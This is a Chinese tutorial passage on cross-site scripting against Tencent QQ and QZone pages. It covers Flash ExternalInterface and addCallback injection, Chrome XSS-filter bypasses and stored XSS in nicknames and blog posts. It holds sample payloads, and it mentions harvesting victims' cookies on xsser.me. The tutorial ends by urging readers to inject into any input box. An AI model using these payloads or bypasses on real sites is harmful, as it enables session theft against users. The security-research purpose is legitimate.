如果你对AS有一点了解，不难看出menu_array是一个数组，那么_local2应该就是数组的下标，
而从单词含义“菜单数组”我们不难联想到上面xml文件里的数据。
换句话说，这里我们的可以控制call的第2个参数。同教程14中的方法，我们下载下来
http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml。 先做点修改，然后上传到自己网站上。我们将代码里日志那一行的href改掉。
上传修改后的文件，同时记得将crossdomain.xml上传至自己的网站根目录下哦～～（见教程14）
接着我们载入我们自己指定的XML文件。
接着我们打开Firefox浏览器。 有人会问，你怎么突然要用Firefox啊！疯了么！！ 同志们，我没疯，只是因为FF可以捕获到这里的错误，而chrome捕获不到！
我们打开Firefox后， 访问上面的地址，点击【日志】按钮！！
Ctrl+shift+J 打开错误控制台！可以看到以下报错！
记性好的朋友，会马上想起上一节里我们说到的。
ExternalInterface.call(“函数名”,”参数1”);
实际上执行的是以下内容，
我们就是从FF这里捕获错误到这点的！（:) 当然也还会有其他方法）。
为什么会出错
当我们点击 【日志】按钮时，会调用。
而
menu_array[_local2].href等于\",alert(1), 进而，我们代入完整的代码，即如下：
转换过程如下图：
可以看到转换之后，JS代码有点乱，引号到处飞，括号无处寻，因而报错了！
那么我们怎么构造正确的利用代码呢？
首先第一步，要注入自己代码，首先要闭合掉双引号！
但是从上面转换流程，我们可以看到，
"会变成\", 即变成了下面的样子，还是突破不出去。
不过非常庆幸的事情是，这里没有对
\进行转义。 我们可以通过输入\"来构造。JS的字符串里，\用\\表示。如下：
罗嗦了这么多，我们把构造点代码，拿出来，插入到XML文件里。注意以下几点：
- 最后构造的代码是\“, 实际我们的输入是\”，然后由FLASH自己转变为\“的，因而利用代码里只需要输入\”即可。
- 由于在XML的节点属性里，双引号写为
",<menu name="日 志" href="构造点\"))}catch(e){alert(1)}//构造点" />再次上传文件。打开
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml点击日志，看看效果。
XSS Filter Bypass
17. XSS过滤器绕过 [通用绕过]
关于反射型的基本东西，暂时就到这啦，如果后面有什么好的case，再做增补。最近，有些人会问到怎么绕过浏览器的XSS过滤器，所以从这节开始，给出点绕过的例子。
当然这些绕过浏览器的方法，不是万能的。不同浏览器，不同场景都会存在差异。满足场景要求时，才可以使用。
IE的一些绕过见乌云上的 @gainover，@sogili 的例子，我们教程就不再提及了。
此文给出的是一个来自sogili分享的chrome下绕过过滤器的方法，在腾讯某处XSS上的应用。
这一类都算是“结合了一定场景”，绕过了浏览器自身的防御机制，具有一定的通用性，我们称为“通用绕过”（瞎起的名字，别在意）。
但是在后续版本的浏览器中，这些技巧可能会被浏览器干掉从而失效。再次强调：通用不是全部都行，意思是所适用的场景实际发生的概率比较高！
漏洞点
uin参数没有对任何字符进行过滤。
正是由于这个点什么都没过滤，浏览器自身的防御机制也最好发挥作用，瞧瞧，chrome拦截了。。
有的新手，不知道有过滤器的，更是会觉得 “啊，这是怎么回事，怎么不行啊，明明可以的。。”
我们只要看到console里有上面那句，就说明 chrome的过滤器大发神威了！！
看看源码
危害部分被和谐了。
那么怎么绕过呢？ 这里直接说方法。
首先要求缺陷点，允许
<,>。其次，要求缺陷点的后方存在</script>标签。 我们看看当前的这个点的代码。
可以看到上面的要求均满足。我们就可以使用以下技巧。
代入到我们的利用代码里。
这次，我们就成功啦。

18. XSS过滤器绕过 [猥琐绕过]
有些时候，通用的绕过技巧并不可行，这个时候我们就得观察缺陷点的周围环境，想想其它办法咯。“猥琐绕过”与通用绕过不同的是，它通用性小，往往只是特例。
漏洞点：
一个DOM XSS
看看源码:
siDomain与g_StyleID都是地址栏里获取过来，然后通过document.write输出到页面中。利用先前教程的知识，我们不难构造出利用代码。
IE下成功弹出
但是到了chrome下，又被拦截了。。

并且，因为这里接受地址栏的参数时，是以 “=” 分割，因而我们的代码中是不允许携带 等号的。故上一篇的技巧不能拿到这里来使用了！
chrome拦截，是有一定的拦截规则的，只有它觉得是恶意代码的才会去拦截。这个时候，就需要我们“观察地形”啦！！
我们仔细看看这句。
这里会对g_StyleID进行一次替换，将
v6/替换为空。那么如果我们的g_StyleID写为下面的情况
替换后
<script>alert(document.cookie)</script>能够正常执行，但是Chrome又不会觉得它是恶意代码了。
成功绕过
存储型XSS
一般来说，存储型XSS也是危害最大的XSS
19. 存储型XSS入门 [什么都没过滤的情况]
存储型和反射型相比，只是多了输入存储、输出取出的过程。简单点说：
反射型是：输入–输出；
存储型是：输入–进入数据库*–取出数据库–输出。
这样一来，大家应该注意到以下差别：
反射型是：绝大部分情况下，输入在哪里，输出就在哪里。
存储型是：输入在A处进入数据库， 而输出则可能出现在其它任何用到数据的地方。
反射型是：输入大部分位于地址栏或来自DOM的某些属性，也会偶尔有数据在请求中（POST类型
存储型是：输入大部分来自POST/GET请求，常见于一些保存操作中
因而我们找存储型的时候，从一个地方输入数据，需要检测很多输出的点，从而可能会在很多点发现存储型XSS。
至于如何根据输出来构建存储型XSS的代码，和反射型没有任何区别，都是看输出的上下文来进行.
从程序员过滤代码的角度来讲，我们给之后的教程走向分个类：
数据需要过滤，但是未过滤。导致XSS.
比如：昵称、个人资料。
业务需求使得数据只能部分过滤，但过滤规则不完善，被绕过后导致XSS。
比如：日志、邮件及其它富文本应用。
本节先看一个最基本的情况，该过滤，但是什么都没过滤的情况。（数据库：不一定是像mysql那样的数据库，只要是能存储数据的都算。）
找存储型的时候，需要有一颗多疑的心，一双善于发现的眼睛。我们来看看实例！
这个时候，我们就会想，这个发上来的页面会不会有XSS呢？
我们来看看页面的结构。
很多新手在找XSS的时候，都是拿着
<script>alert(1)</script>或者其它到处测试，很盲目不是吗？一定要记住本节最开头的话，存储型XSS，输出的位置不一定出现在输入的位置。
因而我们有时候需要逆向的思维，来寻找存储型XSS。 大概思路如下：
先找到输出点，然后猜测此处输出是否会被过滤。
如果觉得可能没过滤，我们再找到这个输出是在哪里输入的。
接着开始测试输入，看输出的效果。
如果没过滤，那么你就成功了，否则你可以放弃掉它。
拿本例来说明以上过程，
我们猜测昵称这个输出没过滤。
找到输入点，这个输入点，就是修改QQ昵称。
开始测试
通过WEBQQ修改昵称如下：(方法见： WooYun: PKAV腾讯专场 - 3. 腾讯QQ客户端某处功能页面存储型XSS )
使用charles web proxy 拦截WEBQQ数据包，修改并提交。
提交成功后：
我们拿小号进入一个群，发布一条手机QQ的语音。看输出效果，没过滤，成功了吧～～
拿xsser.me在某群的测试效果！
20. 存储型XSS入门 [套现绕过富文本]
很多应用含有富文本内容，这类应用最典型的特征是具有编辑器，例如：博客日志，邮箱等。这类应用往往允许使用一定的HTML代码。为了在用户体验和安全之间寻找平衡，各种厂商可能采用了不尽相同的办法。但是总体来说，有2类。
第1类我们称为白名单，即：只允许使用白名单内的合法HTML标签，例如IMG。其它均剔除。例如：百度贴吧回帖时候的代码过滤方式。
第2类我们称为黑名单，即：厂商会构建一个有危害的HTML标签、属性列表，然后通过分析用户提交的HTML代码，剔除其中有害的部分。 如：QQ邮箱的发邮件时的过滤方式。
白名单要安全得多，而黑名单的方式则经常会被绕过。
绕过的技巧也有很多，我们可以从最没技术含量的开始说起!! 本节将以QQ空间/QQ校友的日志功能为例来说明，什么是“套现绕过富文本”！
注意：本节说的“套现”，不是与“钱”有关的；在这里的含义是：“套用现成的XSS代码”。
新手平时测试XSS时，经常会用到
<script>alert(1)</script>到处插入，看效果。这种做法，在某些反射型XSS，或者你运气好的时候，确实能碰到。但是如果拿到QQ空间日志里去插入。嗯，后果一定会很悲壮，被过滤的毛都没有了。。
这是为什么呢？因为
<script>在腾讯的黑名单中，被过滤是理所当然的。试想，如果我们找到一个不在腾讯黑名单中的XSS代码，岂不是就可以成功在日志里执行XSS了么？
有的人会问了。。哪里去找啊?? 方法有2种：
- 你足够牛，自己去发现。
- 已经有大牛为我们准备了很好的资料，去里面翻。@sogili 维护的
http://html5sec.org/
然后我就开始按照下面的流程慢慢测试。
先进QQ空间，发表一个日志，然后编辑日志，同时抓包。
修改抓包内容后，这里修改的是日志内容。提交修改后的数据包！
然后我们来看看日志里的源代码里，我们提交的XSS代码是否被过滤。
这里我们就不说失败的了，直接说成功的部分。
我们提交以下代码：
然后看看源代码的输出：
可以看到，这个XSS代码完全没过滤。
我们可以看到XSS的效果。鼠标移到日志上，即会触发XSS代码。
很简单，对吧？ 但是有以下问题我们要注意！！
- 使用代码前，先自己在本地试下，是否能执行！搞清楚你所使用的XSS代码的原理是什么！
- 搞清楚XSS代码的适用范围：如：在什么浏览器的什么版本之下才能使用，是否需要用户交互等。
- 注意平时对此类代码的搜集与整理。
21. 存储型XSS进阶 [猜测规则，利用Flash addCallback构造XSS]
有些时候，我们拿现成的XSS代码都不行，都被过滤了，那么需要我们对过滤的规则进行一定的判断与猜测。然后针对性的使用一些技巧来适应或者绕过规则。
在本例中，我们以QQ空间/QQ校友的日志功能为例，通过猜测简单的过滤规则，然后使用含有addCallback的flash，来实现了存储型XSS的构造。
前提：本例需在IE9，IE10下进行。
我们乌云上报告的一些已有案例，进行了再次测试。
WooYun: PKAV腾讯专场 - 6. （QQ空间+朋友网）日志功能存储型XSS
上例中，提到了QQ空间日志并未对object标签进行有效的过滤。
我们根据此例中的代码对过滤规则进行测试：
以上的代码，是可以正常提交，并且未过滤的。
而当swf的域名不是qzs.qq.com时候，代码将会被过滤为以下内容。
即地址被去掉了。
那么我们已知了这个过滤规则， 就有2种绕过的方式。
找到一个qzs.qq.com域名下存在缺陷的FLASH，然后加以利用。
此方法，已经在 @gainover 的 WooYun: PKAV腾讯专场 - 6. （QQ空间+朋友网）日志功能存储型XSS 有所介绍了。
利用Flash的addcallback缺陷来构造存储型XSS。
首先说下flash addcallback方法的基本原理。
根据flash sdk 里的源代码，我们可以得到flash addcallback 的源代码中有以下代码。
其中objectID为调用FLASH的HTML标签的ID。functionName则为被JS所调用的函数名称。
当我们有以下代码时：
且
http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf中存在一句ExternalInterface.addCallback("myfunc",funcInFlash);, 则有
代入上面那句_evalJS中，则有
那么我们可以想象一下，如果 aaaa 替换为
aaaa"),alert(1),("则上面代码变为
解析
且FLASH中，确实未对objectID做任何过滤。 基于以上内容，我们可以构建利用代码。
我们自己用上面这段代码先在自己网站上测试下：
看，果然id里的代码被执行了！
利用以上原理，接着我们在QQ空间里来做测试，至于FLASH么，就是现成的！
虽然这个FLASH里没有缺陷，但是存在addCallback的调用，我们就可以直接用它。
发布日志，使用以上代码
当用户访问含有XSS代码的日志后，我们可以在xsser.me查看所记录的cookies内容。
仅IE9, 10 受影响。QQ空间/校友同时受影响。
反正……见框就插叭，广撒网，总能捡着洞的……